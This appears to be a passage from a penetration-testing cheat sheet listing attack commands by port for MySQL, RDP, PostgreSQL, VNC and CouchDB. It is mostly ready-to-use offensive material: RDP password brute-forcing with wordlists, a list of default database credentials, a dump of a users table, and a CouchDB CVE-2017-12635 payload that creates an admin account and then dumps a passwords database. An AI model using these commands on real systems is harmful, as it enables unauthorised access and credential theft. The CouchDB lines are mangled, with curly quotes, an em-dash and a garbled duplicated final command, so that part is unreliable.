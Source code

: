 [https://docs.oracle.com/cd/B10501\_01/win.920/a95490/username.htm](https://docs.oracle.com/cd/B10501\_01/win.920/a95490/username.htm)

## Port 3306 - MySQL

```bash
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse 10.11.1.111 -p 3306

mysql --host=10.11.1.111 -u root -p

# MYSQL UDF 4.x/5.0
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```

## Port 3389 - RDP

```bash
nmap -p 3389 --script=rdp-vuln-ms12-020.nse
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.11.1.111
rdesktop -u guest -p guest 10.11.1.111 -g 94%
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://10.11.1.111
python crowbar.py -b rdp -s 10.11.1.111/32 -u admin -C ../rockyou.txt -v
```

## Port 5432 - PostgreSQL

```bash
psql -h 10.10.1.111 -U postgres -W

# Default creds
postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password

pg_dump --host=10.10.1.111 --username=postgres --password --dbname=template1 --table='users' -f output_pgdump
```

## Port 5900 - VNC

```bash
nmap --script=vnc-info,vnc-brute,vnc-title -p 5900 10.11.1.111
```

## Port 5984 - CouchDB

```bash
curl http://example.com:5984/
curl -X GET http://IP:5984/_all_dbs
curl -X GET http://user:password@IP:5984/_all_dbs

# CVE-2017-12635 RCE

# Create user
curl -X PUT ‘http://localhost:5984/_users/org.couchdb.user:chenny' — data-binary ‘{ “type”: “user”, “name”: “chenny”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’

# Dump database
curl http://127.0.0.1:5984/passwords/_all_docs?include_docs=true -u chenny:-Xpassword <ds/_all_docs?include_docs=true -u chenny:-Xpassword
```